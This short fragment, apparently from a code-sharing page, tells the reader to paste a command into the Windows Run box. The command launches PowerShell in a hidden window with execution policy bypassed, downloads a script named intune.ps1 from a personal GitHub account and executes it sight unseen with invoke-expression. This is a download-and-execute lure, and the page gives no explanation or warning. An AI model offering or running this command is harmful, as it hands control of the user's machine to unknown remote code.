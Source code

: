 use code in run box

"powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/mannno24/test/main/intune.ps1?dl=1?dl=1; invoke-expression $pl"
